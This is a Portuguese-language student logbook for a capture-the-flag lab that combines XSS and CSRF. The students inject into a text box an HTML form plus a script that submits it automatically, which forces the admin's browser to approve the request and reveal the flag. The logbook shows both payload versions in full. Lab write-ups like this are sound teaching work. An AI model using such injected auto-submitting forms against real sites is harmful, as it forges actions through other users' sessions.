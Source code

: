 # LOGBOOK6 - CTF - XSS + CSRF
<div align="justify">
<p>Neste CTF, ao entrar no site mencionado, deparamo nos com uma caixa de texto na qual podemos inserir qualquer tipo de conteúdo, e o administrador fornecerá a flag dependendo do input. </p>
![Alt text](uploads/logbook6P1.png)
<p>
Para analisar o que acontece no site, inserimos um texto e observamos que há uma página com um formulário onde o administrador decide se o input enviado é aceitável (fornecendo assim a flag) ou não. </p>
![Alt text](uploads/logbook6P2.png)
![Alt text](uploads/logbook6P3.png)
<p>Com isso em mente, pensamos que poderia ser possível inserir um formulário idêntico ao que o administrador tinha acesso, mas com um 'script' que 'forçasse' o administrador a aceitar o que era enviado.
Analisando o código-fonte da página, verificamos que o 'formulário' que precisa de ser enviado, fornecendo a flag, possui o seguinte código:</p>
</div>

```html
<form method="POST" action="/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```
Assim, para que o formulário seja 'submited' automaticamente, inserimos o seguinte 'script' no nosso input:
```html
<script>document.getElementById('fake_id').submit()</script>  
<!-- O fake_id é o id colocado no 'form' que foi colocado no input -->
<!-- Este script procura um elemento com ID = fake_id e submete esse formulário -->
```
Com isso, o 'input' que enviamos foi o seguinte:
```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script>  
```
<div align="justify">
<p>Após o envio do nosso formulário, a página é recarregada, mostrando a flag, embora esta seja redirecionada para outra página quase instantaneamente. Portanto, para obtermos a flag, assim que enviamos a nossa resposta, pressionamos o botão 'parar' para evitar o redirecionamento automático, conseguindo então obter a flag: flag{a03da844bb383e699a2c1a32c5d4a0d6}.</p>
![Alt text](uploads/logbook6P4.png)
![Alt text](uploads/logbook6P5.png)
![Alt text](uploads/logbook6P6.png)

<p> 
Considerando que de facto o método explicado anteriormente não é assim tão simples de executar, resolvemos alterar o input de forma a que uma nova página fosse aberta com a flag. Para isso, alteramos o 'script' que enviamos para o seguinte:
</p>
</div>

```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form" target="blank">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script> 
```
<p> Como se pode perceber, a unica alteração que foi feita foi a adição do atributo 'target="blank"' no 'form' que foi colocado no input. Este atributo faz com que o formulário seja submetido numa nova página, o que permite que a flag seja mostrada. </p>

<video src="uploads/logbook6P7.mp4" controls title="Flag"></video>

